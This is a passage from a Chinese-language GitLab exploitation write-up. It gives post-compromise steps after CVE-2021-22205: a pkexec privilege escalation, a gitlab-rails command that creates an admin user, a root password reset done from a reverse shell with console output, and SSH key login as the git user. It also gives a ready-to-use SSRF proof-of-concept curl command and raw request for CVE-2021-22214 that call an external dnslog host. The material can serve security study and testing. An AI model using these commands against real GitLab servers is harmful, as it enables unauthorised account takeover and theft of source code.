<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
/usr/bin/pkexec
</td></tr></tbody></table>

提权之后

方法一：添加管理员账户，登录 gitlab 页面。

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="1822" valign="middle">
echo 'user=User.new;user.test@example.com";user.access_level="admin";user.confirmed_at = Time.zone.now;user.save!' | gitlab-rails console
</td></tr></tbody></table>

方法二：重置管理员密码，登录 gitlab 页面。

##### **利用方式二：重置密码**

  如果只想要访问 gitlab 项目，可以参考本地修复 gitlab 管理员密码的方法来替换管理员密码。

先讲一下正常 gitlab 管理员重置密码：

1. 这里网上说在强调需要 root 进入容器然后才能进控制台，我这边反弹的 shell git 用户权限也可以直接进入控制台。使用以下命令启动 Ruby on Rails 控制台

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
&nbsp;gitlab-rails console -e production
</td></tr></tbody></table>

2. 等待一段时间，控制台加载完毕，有多种找到用户的方法，您可以搜索电子邮件或用户名。

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
&nbsp;user = User.where(id: 1).first &nbsp;&nbsp;&nbsp; // 由于管理员用户 root 为第一个用户，因此用户 id 为 1；
</td></tr></tbody></table>

3. 现在更改密码，注意，必须同时更改密码和 password_confirmation 才能使其正常工作。

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
&nbsp;user.password = '新密码'

&nbsp;user.password_confirmation = '新密码'
</td></tr></tbody></table>

4. 最后别忘了保存更改。

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
&nbsp;user.save
</td></tr></tbody></table>

完整指令如下：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
root@971e942b7a70:/#&nbsp;gitlab-rails console -e production

--------------------------------------------------------------------------------

&nbsp;Ruby:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux]

&nbsp;GitLab:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 14.3.0 (ceec8accb09) FOSS

&nbsp;GitLab Shell: 13.21.0

&nbsp;PostgreSQL:&nbsp;&nbsp; 12.7

--------------------------------------------------------------------------------

Loading production environment (Rails 6.1.3.2)

irb(main):001:0&gt;&nbsp;user = User.where(id: 1).first

=&gt; #&lt;user id:1="" root=""&gt;&lt;/user&gt;

irb(main):002:0&gt;&nbsp;user.password = 'admin1234'

=&gt; "admin1234"

irb(main):004:0&gt;&nbsp;user.password_confirmation = 'admin1234'

=&gt; "admin1234"

irb(main):005:0&gt;&nbsp;user.save

Enqueued ActionMailer::MailDeliveryJob (Job ID: 191a2ed7-0caa-4122-bd06-19c32bffc50c) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", {:args=&gt;[#<globalid:0x00007f72f7503158 uri="#<URI::GID" gid:="" gitlab="" user="">&gt;]}</globalid:0x00007f72f7503158>

=&gt; true
</td></tr></tbody></table>

管理员 root 用户密码重置完毕，重置后的密码为 admin1234。

下面是我用刚刚的 shell 执行的效果：

1、进入控制台：gitlab-rails console -e production

注意注意：这里一定要等一等，网上的文章说这里会卡住，其实只是人家程序在加载



2、找到 root 用户，一开始我也以为是爆错，心想凉凉了，结果最后是执行了的



3、更改密码。

 user.password = 'admin1234'

 user.password_confirmation = 'admin1234'



4、最后保存

user.save



5、回到登陆界面，输入 root/admin1234。





  发现成功登录，可以得到 gitlab 平台上的源代码。

##### **利用方式三：SSH 免密登录**

如果上面的第二种利用方式不行的话，可以尝试 SSH 免密登录这种方式

查看 / etc/passwd

在 / etc/passwd 文件中，大家可以把最后这个字段理解为用户登录之后所拥有的权限。如果这里使用的是 bash 命令解释器，就代表这个用户拥有权限范围内的所有权限。Shell 命令解释器如果为 /sbin/nologin，那么，这个用户就不能登录了。



  可以看到，这里的 gti 用户具有 ssh 登录权限，可以通过向 git 用户写入公钥进行登录。

  由于 SSH 免密登录不是本文重点，想了解 gitlab 免密登录可以看这篇文章：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
https://zhuanlan.zhihu.com/p/439476986
</td></tr></tbody></table>

### **参考链接**

    https://paper.seebug.org/1772/

    https://www.ddosi.org/cve-2021-22205/

**5、SSRF 未授权（CVE-2021-22214）**
------------------------------

### **影响版本**

    10.5 <= GitLab < 13.10.5

    13.11 <= GitLab < 13.11.5

    13.12 <= GitLab <= 13.12.2

### **漏洞复现**

  POC 为：（使用时修改两处即可）

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="909" valign="middle">
curl -k -s --show-error -H 'Content-Type: application/json' http://127.0.0.1/api/v4/ci/lint --data '{"include_merged_yaml": true,"content":"include:\n remote: http://6hd7mj.dnslog.cn/api/v1/targets/?test.yml"}'
</td></tr></tbody></table>

  完整数据包：

<table border="1" cellspacing="0" cellpadding="0"><tbody><tr><td width="1019" valign="middle">
POST&nbsp;/api/v4/ci/lint&nbsp;HTTP/1.1

Host: 127.0.0.1

Cache-Control: max-age=0

DNT: 1

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Accept-Language: zh-CN,zh;q=0.9

Connection: close

Content-Type: application/json

Content-Length: 112

{"include_merged_yaml": true, "content": "include:\n remote: http://6hd7mj.dnslog.cn/api/v1/targets?test.yml"}
</td></tr></tbody></table>

### **参考文章**

http://cn-sec.com/archives/889456.html

**6、CVE-2022-2185**
-------------------

详情请见：https://starlabs.sg/blog/2022/07-gitlab-project-import-rce-analysis-cve-2022-2185/

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
